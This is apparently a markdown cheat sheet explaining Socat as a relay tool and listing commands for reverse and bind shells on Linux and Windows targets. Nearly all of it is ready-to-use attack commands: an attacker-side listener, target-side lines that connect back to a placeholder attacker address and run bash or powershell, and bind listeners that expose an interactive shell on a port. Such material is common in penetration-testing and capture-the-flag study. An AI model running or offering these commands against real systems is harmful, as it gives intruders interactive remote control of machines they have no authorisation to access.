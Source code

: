 Here’s a detailed breakdown of all the key elements related to **Socat** and its usage in reverse and bind shells:

---

### **What is Socat?**
- **Socat** is a multipurpose relay tool that connects two data streams (e.g., a listening port and a shell or two listening ports).
- It's more versatile than netcat, allowing you to create stable and interactive shells, transfer files, or connect diverse inputs and outputs.

---

### **Reverse Shells**

1. **Basic Reverse Shell Listener on Attacker (Linux/Windows):**
   ```bash
   socat TCP-L:<port> -
   ```
   - Connects a listening port to standard input/output.
   - Equivalent to: `nc -lvnp <port>`

2. **On the Target Machine:**
   - **Windows Target:**
     ```bash
     socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
     ```
     - `pipes`: Converts Windows-style CLI input/output to Unix-style.

   - **Linux Target:**
     ```bash
     socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"
     ```
     - `bash -li`: Launches an interactive bash shell.

---

### **Bind Shells**

1. **On the Target Machine (Listener):**
   - **Linux Target:**
     ```bash
     socat TCP-L:<PORT> EXEC:"bash -li"
     ```

   - **Windows Target:**
     ```bash
     socat TCP-L:<PORT> EXEC:powershell.exe,pipes
     ```

2. **On the Attacker Machine (Connect to Listener):**
   ```bash
   socat TCP:<TARGET-IP>:<TARGET-PORT> -
   ```

---